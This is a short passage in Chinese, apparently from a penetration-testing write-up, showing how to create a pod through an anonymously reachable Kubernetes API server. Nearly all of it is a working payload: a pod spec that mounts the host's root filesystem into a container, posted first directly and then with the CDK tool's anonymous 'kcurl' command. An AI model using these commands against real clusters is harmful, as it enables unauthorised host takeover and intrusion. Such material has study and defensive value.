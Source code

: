 #### 通过cdk工具传输创建Pod

创建特权容器

```plain
https://192.168.108.100:6443/api/v1/namespaces/default/pods/test-1
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```

利用正常的POST传输似乎无法成功[![](assets/1701678402-e4467523ed797c53f6f3971e4e062371.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190918-e7a42dba-8f70-1.png)  
利用渗透工具cdk再次尝试

> [https://github.com/cdk-team/CDK/releases/tag/v1.5.2](https://github.com/cdk-team/CDK/releases/tag/v1.5.2)

```plain
./cdk_linux_amd64 kcurl anonymous post 'https://192.168.108.100:6443/api/v1/namespaces/default/pods?filedManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}'
```
